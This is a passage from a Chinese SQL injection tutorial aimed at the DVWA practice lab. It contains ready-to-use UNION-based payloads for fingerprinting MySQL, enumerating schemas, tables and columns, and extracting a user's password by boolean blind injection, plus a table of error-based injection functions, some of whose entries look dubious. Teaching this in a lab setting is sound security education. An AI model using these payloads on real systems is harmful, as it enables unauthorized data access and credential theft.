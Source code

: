 这条语句会因为`JOIN`操作导致的重复列问题而报错，错误信息中会包含一些关于字段的信息。通过分析错误信息中涉及的字段数量，也可以确定查询结果的字段数。不过这种方法相对复杂，且不同数据库的报错信息格式和内容有所差异，需要根据具体情况进行分析。

### 2.3 信息提取全流程实战
1. **步骤1：获取数据库指纹**：
使用`UNION SELECT`语句查询数据库的一些系统变量和函数，以获取数据库的相关信息，包括数据库版本、数据存储路径、当前数据库名、当前用户以及服务器主机名等。例如：
```sql
?id=-1' UNION SELECT 
@@version, /* 数据库版本 */
@@datadir, /* 数据存储路径 */
database(), /* 当前数据库 */
user(),     /* 当前用户 */
@@hostname  /* 服务器主机名 */
--+
```
执行上述语句后，页面会返回相应的信息，如数据库版本可能显示为`5.7.38 - 0ubuntu0.18.04.1`，数据存储路径可能为`/var/lib/mysql/`等。
2. **步骤2：提取所有数据库**：
在MySQL中，可以通过查询`information_schema.schemata`表来获取所有数据库的名称。使用`GROUP_CONCAT`函数将结果拼接成一个字符串返回：
```sql
?id=-1' UNION SELECT 
GROUP_CONCAT(schema_name),
NULL,NULL,NULL 
FROM information_schema.schemata--+
```
执行后，页面会返回所有数据库名，以逗号分隔，如`information_schema,mysql,performance_schema,sys,dvwa`等。
3. **步骤3：提取指定表结构**：
查询`information_schema.columns`表，通过指定`table_schema`为目标数据库名，获取该数据库中所有表的表名和列名。例如，要获取`dvwa`数据库的表结构：
```sql
?id=-1' UNION SELECT 
GROUP_CONCAT(table_name),
GROUP_CONCAT(column_name),
NULL,NULL 
FROM information_schema.columns 
WHERE table_schema='dvwa'--+
```
执行结果会返回`dvwa`数据库中所有表的表名和列名，同样以逗号分隔。例如，表名可能为`users,guestbook`等，列名可能为`user_id,username,password,avatar`等。
4. **步骤4：数据爆破（布尔盲注）**：
当无法直接获取数据时，可以使用布尔盲注的方式逐步获取敏感数据。例如，要获取`users`表中第一个用户的密码，通过判断每个字符的ASCII值来确定字符内容：

```sql
?id=1' AND ASCII(SUBSTR((SELECT password FROM users LIMIT 1),1,1))>50--+
```
如果页面返回正常，说明第一个字符的ASCII值大于50；接着调整条件，如`>70`、`>60`等，通过二分法逐步缩小范围，最终确定该字符的ASCII值，进而得到对应的字符。然后依次获取后续字符，直到完整获取密码。

## 第三章：高阶注入技术深度解析
### 3.1 报错注入全函数解析
在无法直接获取查询结果的场景下，报错注入是一种高效的信息提取方式，通过利用数据库函数的错误机制暴露敏感数据。以下是不同数据库的常用报错函数对比及实战payload构造：

| 函数                 | 数据库     | 原理                                                         | 最大输出 |
| -------------------- | ---------- | ------------------------------------------------------------ | -------- |
| updatexml()          | MySQL      | 利用XML解析错误，当第二个参数包含非法XML格式时触发报错       | 32字符   |
| extractvalue()       | MySQL      | 基于XPath语法错误，传入不符合XPath规范的字符串引发错误       | 32字符   |
| geometrycollection() | MySQL      | 几何数据类型处理错误，向该函数传入SQL查询结果导致格式异常    | 64字符   |
| pg_sleep()           | PostgreSQL | 虽为延迟函数，但可结合条件判断构造报错场景（需配合其他函数） | 无限制   |
| dbms_xmlgen.getxml() | Oracle     | XML转换错误，将查询结果转换为XML时因格式问题报错             | 200字符  |

